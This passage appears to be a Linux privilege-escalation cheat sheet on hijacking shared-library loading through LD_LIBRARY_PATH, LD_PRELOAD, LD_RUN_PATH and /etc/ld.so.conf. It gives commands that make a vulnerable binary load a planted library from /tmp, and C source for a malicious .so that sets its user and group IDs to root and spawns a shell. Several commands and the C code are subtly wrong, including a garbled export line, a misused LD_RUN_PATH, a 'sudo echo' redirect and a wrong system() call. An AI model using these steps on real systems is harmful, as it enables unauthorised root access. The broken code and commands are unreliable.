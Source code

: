 #### "/lib" & "/usr/lib"

#### "LD_LIBRARY_PATH & LD_RUN_PATH" Method

LD_LIBRARY_PATH: Search path environment variable for the linux shared library.
LD_PRELOAD: Influence the linkage of shared libraries and the resolution of symbols (functions) at runtime.
LD_RUN_PATH: Tell the dynamic link loader where to search for the dynamic shared libraries an application was linked against.

We can do the following:

```bash
# Either add the path where our malicious .so is
LD_LIBRARY_PATH export LD_LIBRARY_PATH=/tmp/
# Use LD_PRELOAD to force vulnerable_exe to use thomas.so
LD_PRELOAD=/tmp/thomas.so /usr/bin/vulnerable_exe
# Use LD_RUN_PATH to
LD_RUN_PATH=/tmp/thomas.so /usr/bin/vulnerable_exe
```

#### "/etc/ld.so.conf" Method

We need to check if we have write permission in **/etc/ld.so.conf(.d)**.

Some existing libraries do not contain enough information to allow the deduction of their type. Therefore, the /etc/ld.so.conf file format allows the specification of an expected type.

Let's add a directory where we have right access to **ld.so.conf**

```bash
sudo echo "/home/ubuntu/lib" > /etc/ld.so.conf.d/privesc.conf
```

And then create a shared library that is going to get us root

```c
//gcc -shared -o thomas.so -fPIC thomas.c

#include <stdio.h>
#include <unistd.h>
#include <sys/types.h>

void thomas(){
    setuid(0);
    setgid(0);
    system("/bin/sh",NULL,NULL);
}
```

#### LD_PRELOAD

**LD_PRELOAD** is an optional environmental variable containing one or more paths to shared libraries, or shared objects, that the loader will load before any other shared library including the C runtime library (libc.so) This is called preloading a library.

If output of a sudo -l shows +LD_PRELOAD on an entries, you can take advantage of it.
